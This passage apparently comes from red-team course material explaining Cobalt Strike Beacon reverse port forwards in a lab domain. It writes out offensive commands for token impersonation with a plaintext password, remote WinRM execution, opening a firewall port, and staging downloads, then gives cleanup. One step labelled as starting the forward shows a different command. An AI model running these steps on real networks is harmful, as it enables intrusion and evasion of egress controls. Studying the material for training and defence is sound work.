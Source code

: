 
I find it useful to think of reverse port forwards as the opposite of of SOCKS.  Rather than tunnelling traffic in from the outside, a reverse port forward allows an adversary to tunnel traffic out from the inside.  Some computers, such as servers, are often restricted from sending traffic onto the Internet or out of their network segment.  Reverse port forwards allow these restrictions to be circumvented by pivoting the traffic through a Beacon to which the computer can communicate with.

The syntax of the `rportfwd` command is `rportfwd [bind port] [forward host] [forward port]`.

- This instructs the Beacon to begin listening on the _bind port_.  Any traffic that hits this port is sent back to the team server over the C2 channel.
    
- The team server will forward the traffic to the _forward host_ and _forward port_.
    
- If there is a response, the team server will send it back to Beacon over the C2 channel.
    
- Beacon then forwards that response to the original caller.
    

One scenario where the reverse port forward can be useful is when you have remote command execution on a target computer, but no ability to upload a payload to it.  In those cases, tricks like PowerShell download cradles are good because you command the computer to download the payload from a remote resource.  However, as mentioned, that computer may not have Internet access to pull it from anywhere.  This can be circumvented by starting a reverse port forward on a Beacon that the target computer can talk to.

First, let's demonstrate that _lon-ws-1_ cannot download a file directly from the team server.

```powershell
beacon> make_token CONTOSO\rsteel Passw0rd!
beacon> remote-exec winrm lon-ws-1 iwr http://www.bleepincomputer.com/test
```

This will return the error:  "Unable to connect to the remote server".

Running a reverse port forward in itself does not necessarily require local admin access because standard users are allowed to bind to high ports.  Binding to common ports such as 80, 443, 8080, etc, will require local admin access.  The bigger hurdle is the inbound firewall rules on the computer Beacon is running on because it will block all inbound traffic by default, unless an explicit allow rule is added.  And you do need local admin access for that.

First, add a firewall rule to allow port 28190 inbound.

```powershell
beacon> run netsh advfirewall firewall add rule name="Debug" dir=in action=allow protocol=TCP localport=28190
```

Then start the reverse port forward on that port.  We'll have the team server forward the traffic to itself on port 80 (where it will hit its own internal web server).

```powershell
beacon> remote-exec winrm lon-ws-1 iwr http://lon-wkstn-1:28190/test
```

This time it will return a 404 and we'll see a corresponding record in Cobalt Strike's web log (**View > Web Log**).

```powershell
02/19 11:09:44 visit (port 80) from: 127.0.0.1
	Request: GET /test
	Response: 404 Not Found
	Mozilla/5.0 (Windows NT; Windows NT 10.0; en-GB) WindowsPowerShell/5.1.20348.2849
```

To clean-up, we'd simply stop the reverse port forward and remove the firewall rule.

```powershell
beacon> rportfwd stop 28190
beacon> run netsh advfirewall firewall delete rule name="Debug"
```